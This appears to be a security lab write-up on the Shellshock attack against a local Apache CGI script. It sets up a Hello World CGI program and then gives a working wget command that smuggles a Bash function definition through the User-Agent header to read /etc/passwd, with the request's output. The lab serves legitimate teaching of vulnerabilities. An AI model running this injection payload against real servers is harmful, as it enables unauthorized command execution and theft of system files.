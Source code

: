 In this task, we will launch the Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell script. Therefore, before a CGI program is executed, the shell program will be invoked first, and such an invocation is triggered by a user from a remote computer.

Step 1: Set up the CGI Program. You can write a very simple CGI program (called `myprog.cgi`) like the following. It simply prints out "Hello World" using shell script.

```sh
#! /bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

Please place the above CGI program in the `/usr/lib/cgi-bin` directory and set its permission to 755 (so it is executable). You need to use the root privilege to do these (using sudo), as the folder is only writable by the root. This folder is the default CGI directory for the Apache web server.

To access this CGI program from the Web, you can either use a browser by typing the following URL: `http://localhost/cgi-bin/myprog.cgi`, or use the following command line program `curl` to do the same thing:

```sh
curl http://localhost/cgi-bin/myprog.cgi
```

Step 2: Launch the Attack. After the above CGI program is set up, you can launch the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that you can achieve something that you cannot do as a remote user. For example, you can delete some file on the server, or fetch some file (that is not accessible to the attacker) from the server.

We call it with wget to swap out the User Agent string. E.g. this will show the contents of `/etc/passwd`:

```sh
seed@ubuntu:~$ wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi
--2016-08-09 05:06:08--  http://localhost/cgi-bin/myprog.cgi
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: `myprog.cgi.1'

    [ <=>                                   ] 1,993       --.-K/s   in 0s      

2016-08-09 05:06:08 (49.1 MB/s) - `myprog.cgi.1' saved [1993]
```
